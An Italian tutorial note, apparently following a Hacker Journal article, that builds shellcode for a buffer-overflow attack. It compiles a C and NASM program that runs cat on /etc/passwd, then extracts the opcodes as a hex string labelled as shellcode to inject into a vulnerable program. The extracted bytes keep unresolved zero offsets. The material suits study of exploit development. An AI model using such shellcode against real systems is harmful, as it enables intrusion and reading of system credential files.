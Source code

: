 #nomeprogetto
###HACKER JOURNAL N.259-pag 42-47###BUFFER OVERFLOW - ATTACCO TRAMITE SHELLCODE###

sudo nano Elenco.c
-------------------------------------
#include <unistd.h>
int main() {
        char *args[3];
        args[0] = "/bin/cat";
        args[1] = "/etc/passwd";
        args[2] = NULL;
        execve(args[0], args, NULL);
}
-------------------------------------
gcc -static -g -o Elenco Elenco.c       //crea eseguibile Elenco
./Elenco

gdb -q Elenco
        disas /rs main
        disas /rs execve

gcc -S -fverbose-asm -g -O2 Elenco.c -o Elenco.s        //si ottiene il file Elenco.s in assembly

sudo nano Elenco_assembly.asm
--------------------------------------------
section .rodata
        align 8
        args dq bin, arg2, 0
        arg2 db "/etc/passwd", 0
        bin db "/bin/cat", 0

section .text
        global _start
        _start:
                mov     rax, 59
                lea     rdi, [rel bin]
                lea     rsi, [rel args]
                xor     edx, edx
                syscall
--------------------------------------------
nasm -f elf64 Elenco_assembly.asm               //assemblatore NASM=netwide assembler, crea un file Elenco_assembly.o

ld -o Elenco_assembly Elenco_assembly.o         //crea eseguibile Elenco_assembly che da lo stesso risultato dell'eseguibile ./Elenco

objdump -d elenco_assembly.o -M intel           //fornisce il disassemblato del codice con gli opcode corrispondenti

for i in $(objdump -d Elenco_assembly.o -M intel | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo  //fornisce l'estrazione del codice per la shellcode

\xb8\x3b\x00\x00\x00\x48\x8d\x3d\x00\x00\x00\x00\x48\x8d\x35\x00\x00\x00\x00\x31\xd2\x0f\x05            //shellcode da iniettare a un programma vulnerabile
